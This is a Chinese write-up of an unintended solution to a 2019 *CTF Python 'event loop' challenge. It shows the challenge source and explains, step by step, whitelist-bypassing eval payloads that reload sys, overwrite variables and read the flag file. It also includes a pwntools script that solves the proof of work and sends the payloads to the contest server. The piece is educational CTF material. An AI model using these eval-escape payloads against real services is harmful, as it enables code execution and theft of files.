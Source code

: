 > 原文链接: https://www.anquanke.com//post/id/177596 


# 2019 *CTF一道题的非预期详解


                                阅读量   
                                **221841**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t014e423f9fdbbaf47f.png)](https://p5.ssl.qhimg.com/t014e423f9fdbbaf47f.png)



先放上官方预期的解法：[https://github.com/sixstars/starctf2019/tree/master/misc-homebrewEvtLoop](https://github.com/sixstars/starctf2019/tree/master/misc-homebrewEvtLoop)

赛后一个非预期解法，更体现了python代码的魅力，下面是分析，如有错误，欢迎师傅们斧正

```
#!/usr/bin/python
# -*- encoding: utf-8 -*-
# written in python 2.7
__author__ = 'garzon'

import sys
import hashlib
import random

# private ------------------------------------------------------------
def flag():
    # flag of stage 1
    return '*ctf`{`[0-9a-zA-Z_[]]+`}`'

def flag2():
    ret = ''
    # flag of stage 2
    # ret = open('flag', 'rb').read() # No more flag for you hackers in stage2!
    return ret

def switch_safe_mode_factory():
    ctx = `{`'io_pair': [None, None]`}`
    def __wrapper(): (ctx['io_pair'], (sys.stdin, sys.stderr)) = ([sys.stdin, sys.stderr], ctx['io_pair'])
    return __wrapper

def PoW():
    #return
    while True:
        a = (''.join([chr(random.randint(0, 0xff)) for _ in xrange(2)])).encode('hex')
        print 'hashlib.sha1(input).hexdigest() == "%s"' % a
        print '&gt;',
        input = raw_input()
        if hashlib.sha1(input).hexdigest()[:4] == a:
            break
        print 'invalid PoW, please retry'

# protected ----------------------------------------------------------
def fib(a):
    if a &lt;= 1: return 1
    return fib(a-1)+fib(a-2)

# public -------------------------------------------------------------
def load_flag_handler(args):
    global session
    session['log'] = flag2()
    return 'done'

def ping_handler(args):
    return 'pong'

def fib_handler(args):
    a = int(args[0])
    if a &gt; 5 or a &lt; 0: return 'out of range'
    return str(fib(a))

if __name__ == '__main__':
    session = `{``}`
    session['log'] = flag()
    switch_safe_mode = switch_safe_mode_factory()
    switch_safe_mode_factory = None
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789[]')

    while True:
        PoW()
        print '$',
        event = raw_input() # get eventName and args from the RPC requests, like: funcName114514arg1114514args2114514arg3 ...
        switch_safe_mode()
        if event == 'exit': break

        for c in event:
            if c not in valid_event_chars:
                print "invalid request"
                exit(-1)

        event, args = event.split('114514')
        args = args.split('114514')

        try:
            handler = eval(event)
            print handler(args)
        #except Exception, e:
        #    print 'exception:', str(e)
        except:
            print 'exception'
```

先上exp

```
[[reload][0]for[args]in[[sys]]][0]114514x
[[input][0]for[args]in[[session]]][0]114514x
```

刚拿到题目，就是2019-ddctf的升级版[homebrew event loop](https://wulidecade.cn/index.php/archives/153/#menu_index_5)可是这里并没有有用的函数。

刚看到exp，可能有点不理解，下面一步一步分析

[![](https://p0.ssl.qhimg.com/t01479fa420d1ceb696.png)](https://p0.ssl.qhimg.com/t01479fa420d1ceb696.png)

[![](https://p2.ssl.qhimg.com/t01241bb5bb708f81f1.png)](https://p2.ssl.qhimg.com/t01241bb5bb708f81f1.png)

题目限制了输入只能是大小写字母加数字加_[]，这里我们得到[reload][0]是一个reload函数，先不解释为什么要用[reload][0]，后面分析之后就会一目了然。

先解释一下为什么要用**for[args]in[[sys]]**，这里用到了大家熟知的列表生成器。

参考：[列表生成式](https://www.liaoxuefeng.com/wiki/001374738125095c955c1e6d8bb493182103fac9270762a000/00138681963899940a998c0ace64bb5ad45d1b56b103c48000)

```
&gt;&gt;&gt; [x * x for x in range(1, 11) if x % 2 == 0]
[4, 16, 36, 64, 100]
```

逐个取出为x 然后用x**x作用一遍之后生成新的list**

**[![](https://p3.ssl.qhimg.com/t01421e77f5f25af12e.png)](https://p3.ssl.qhimg.com/t01421e77f5f25af12e.png)**

**可能有人会问?这里args可以换成别的字符吗?按道理换成别的字符也是可以的，但是这道题目不行，需要对应下面那条语句: <em>*print handler(args)**</em>

[![](https://p0.ssl.qhimg.com/t01fddcf5d3c5ca9261.png)](https://p0.ssl.qhimg.com/t01fddcf5d3c5ca9261.png)

这里可能又会问，这一条语句跟上面有啥关系？先来一个demo

```
&gt;&gt;&gt; a = "Decade"
&gt;&gt;&gt; b = [`{`'log':'FLAG'`}`]
&gt;&gt;&gt; for a in b:
...     pass
... 
&gt;&gt;&gt; a
`{`'log': 'FLAG'`}`
```

一针见血，这里a竟然被覆盖了。所以上面不能把args换成别的字符，原因就在于此。可能又会有人问，这一句的作用是为啥?就算是覆盖了，上面已经通过列表生成器重载了sys，然而神奇的是这里并没有。

```
&gt;&gt;&gt; def aaa(c):
...     print c
... 
&gt;&gt;&gt; import sys
&gt;&gt;&gt; args="sss"
&gt;&gt;&gt; d = eval('[[aaa][0]for[args]in[[sys]]][0]')
&gt;&gt;&gt; d
&lt;function aaa at 0x7f501cc0d500&gt;
&gt;&gt;&gt; args
&lt;module 'sys' (built-in)&gt;
&gt;&gt;&gt; d(args)
&lt;module 'sys' (built-in)&gt;
&gt;&gt;&gt; eval('[[aaa][0]for[args]in[[sys]]][0]')
&lt;function aaa at 0x7f501cc0d500&gt;
```

可以看到这里eval之后得到是aaa函数，这里并没有重载，**[[reload][0]for[args]in[[sys]]][0]** 这一整句的目的既为了得到reload函数，又为了覆盖掉args，然后通过 **print handler(args)** 达到重载的目的。回到最先的问题，这里用[reload][0]，是为了绕过空格，很容易想到mysql注入的时候通过(xx)来绕过空格的情景，于是通过 **[[input][0]for[args]in[[session]]][0]114514x**拿到flag

[![](https://p2.ssl.qhimg.com/t01bcd9a1ecb5801426.png)](https://p2.ssl.qhimg.com/t01bcd9a1ecb5801426.png)

[![](https://p3.ssl.qhimg.com/t01002767ece9359d56.png)](https://p3.ssl.qhimg.com/t01002767ece9359d56.png)

```
from pwn import *
import hashlib
import time

def check(p):
    s = p.recvuntil('"')
    s = p.recvuntil('"')
    s = s[0:-1]
    p.recvuntil('&gt; ')
    for i in range(0x100):
        for j in range(0x100):
            t = chr(i) + chr(j)
            if hashlib.sha1(t).hexdigest().startswith(s):
                p.sendline(t)
                #print(t.encode('hex'))
                return

context.log_level = 'error'
payload0 = '[[reload][0]for[args]in[[sys]]][0]114514x'
payload1 = '[[input][0]for[args]in[[session]]][0]114514x'
payload2 = 'load_flag_handler114514x'
payload3 = '[[input][0]for[args]in[[session]]][0]114514x'

p = remote('34.92.121.149','54321')
check(p)
print('check1 ok!')
time.sleep(0.5)
p.recvuntil('$ ')
time.sleep(0.5)
p.sendline(payload0)
time.sleep(0.5)
p.recvline()
check(p)
print('check2 ok!')
p.recvuntil('$ ')
time.sleep(0.5)
p.sendline(payload1)
time.sleep(0.5)
print(p.recv())
```

第二题的升级版同样可以用此方法来获取flag，前面可以看到，我们其实达到了类似变量覆盖的效果，下面我就不细心分析。

```
[[reload][0]for[args]in[[sys]]][0]114514x
[[str]for[PoW]in[[switch_safe_mode]]for[raw_input]in[[input]]][0][0]114514
['[[str]for[args]in[[session]]][0][0]114514' for session in [open('flag','rb').read()]][0]
```

[![](https://p3.ssl.qhimg.com/t01a12c23bd8fbde5f7.png)](https://p3.ssl.qhimg.com/t01a12c23bd8fbde5f7.png)
